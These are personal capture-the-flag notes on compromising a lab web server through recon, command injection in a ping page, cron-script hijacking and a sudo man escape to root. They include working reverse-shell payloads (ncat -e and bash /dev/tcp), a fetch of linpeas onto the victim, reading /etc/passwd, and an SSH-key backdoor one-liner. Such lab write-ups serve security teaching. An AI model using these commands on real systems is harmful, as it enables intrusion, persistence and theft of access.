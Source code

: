 ##### [Captain Cruch video writeup](https://www.youtube.com/watch?v=8yzs1ehicRk)

##### Ryan's pdf writeup ![[CRUNCHS_CTF.pdf]]

### nmap
visit 192.168.246.132 --> apache/Ubuntu "Default" page

scan 192.168.246.132 for open ports - ports 22 and 80 are open
```shell
$ nmap 192.168.246.132
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-06 07:39 EST
Nmap scan report for admin.hottub.stream (192.168.246.132)
Host is up (0.0014s latency)
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
Nmap done: 1 IP address (1 host up) scanned in 0.14 seconds
```
	
visit 192.168.246.132:22 --> restricted
visit 192.168.246.132:22 --> apache/Ubuntu  "Default" page

### Gobuster - for subdirectory discovery 
use gobuster to scan for directories on 192.168.246.132
```shell
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -o gobuster.log -u 192.168.246.132
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.246.132
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/03/06 08:31:51 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 280]
/.hta                 (Status: 403) [Size: 280]
/.htpasswd            (Status: 403) [Size: 280]
/index.html           (Status: 200) [Size: 10918]
/notes                (Status: 301) [Size: 318] [--> http://192.168.246.132/notes/]
/server-status        (Status: 403) [Size: 280]                                             
===============================================================
2022/03/06 08:31:52 Finished
===============================================================
```
Forbidden - .htaccess, .hta, .htapasswd, server-status
only available - notes at 192.168.246.132/notes/notes.txt
```
TODO:
1. Fix James his permissions
2. DON'T FORGET: eat enough ice cream!
3. Block the admin subdomain from outsiders
4. Run linpeas!

DONE:
1. Add a blacklist to the ping function! We now filter: |, &, ;, { ,}
2. Let Ryan get covid															:(
3. Hottub stream
4. Host hottub.stream on our server.
5. Install linpeas in /dev/shm to defend our machine against attackers!
```
### Assumptions based on notes
James is a user on the system
James permissions are not correct
admin subdomain is accessible to riff raff
ping function exists on server
hottub.stream exists on server
Ryan has covid

attempts to access 192.168.246.132 with any subdomains at this point were unsuccessful

attempt to access 192.168.246.132/hottub.stream was unsucessful -
![[Pasted image 20220319082409.png]]


#### modifing the local /etc/hosts
according to the notes the server is hosting hottub.stream
/etc/hosts file asigns domain names to ip addresses locally
added 192.168.246.132 admin.hottub.stream
```
127.0.0.1       localhost
127.0.1.1       kali
10.10.11.105    horizontall.htb
192.168.246.132 hottub.stream admin.hottub.stream
```

now the server 192.168.246.132 sees that I'm accessing it under a different name --> providing a completely different website

calling page admin.hottub.stream produces 
	Jame's php admin page
	
now that we have a new webpage available we can run gobuster on it
```shell
$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u admin.hottub.stream -x htm,html,php

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://admin.hottub.stream
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,htm,html
[+] Timeout:                 10s
===============================================================
2022/03/06 16:06:39 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 122]
/ping.php             (Status: 200) [Size: 140]
/server-status        (Status: 403) [Size: 284]
                                               
===============================================================
2022/03/06 16:09:53 Finished
===============================================================
```

reveals a ping.php page
however notes state - ping function filters: |, &, ;, { ,}

#### 1st Rev shell #1
```bash
nc -lvnp 4444
```
burpsuite proxy to intercept ping web utilty traffic.
	then repeater to send back ncat reverse shell
	ip=1.1.1.1
	ip= ncat -e /bin/sh 192.168.246.131 4444

#### 1st Rev shell #2
```bash
nc -lvnp 4444
```
command injection in http://admin.hottub.stream/ping.php
IP: 1.1.1.1 $(ncat -e /bin/bash 192.168.246.131 4444)

cat /etc/passwd | grep sh
	searches /etc/passwd and greps users with baSH
```bash
www-data@vicim:/var$ cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
james:x:1000:1000:victim:/home/james:/bin/bash
debug:x:1001:1001:,,,:/home/debug:/bin/bash
```

from notes.php - run linpeas
searched crunches box - no linpeas

on kali attack box - download linpeas
```bashc
wget https://github.com/carlospolop/PEASS-ng/releases/download/20220313/linpeas.sh
```
then spin up python server 
```bash
python3 -m http.server
```
then on the victim box - pull linpeas from my kali attack box 
```bash
cd /tmp
wget http://192.168.246.131:8000/linpeas.sh
```
make linpeas.sh executable then run it
```bash
chmod 777 linpeas.sh
./linpeas.sh
```

linpeas shows the following file as vulnerable
james /opt/tools/linpeas-updater.sh
cronfile located in etc/crontab
runs every minute, hour,day
```bash
www-data@vicim:/$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
# You can also override PATH, by default, newer versions inherit it from the environment
#PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * * james /opt/tools/linpeas-updater.sh
```

so if we can R,W,X linpeas-updater.sh
and it runs every minute
we could add a bash reverse shell to it 
but 1st start another nc listener on another port 
attacking pc
```bash 
nc -lvnp 4445
```

on victim box reverse shell from ping, burp, ncat reverse shell add to linpeas-updater.sh
```bash
bash -i >& /dev/tcp/attacking.ip/port 0>&1
```

```bash
james@vicim:/etc$ sudo -l
Matching Defaults entries for james on vicim:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on vicim:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/man

```

consult [GTFOBins](https://gtfobins.github.io/gtfobins/man/) to search for man exploit
```bash
ames@vicim:/etc$ sudo man man
james@vicim:/etc$ !/bin/sh
```

should be in root now
```bash
cat root.txt | base64 -d
```






if they don't already have key files in ~/.ssh, here's a good one liner
```bash
ssh-keygen -t rsa -f ~/.ssh/id_rsa_hacked -P "" && cat ~/.ssh/[id_rsa_hacked.pub](https://id_rsa_hacked.pub/) >> ~/.ssh/authorized_keys && cat ~/.ssh/id_rsa_hacked
```
it generates you a new SSH key, makes it authorized to use for the account, then reads the private key file that you copy the contents of locally












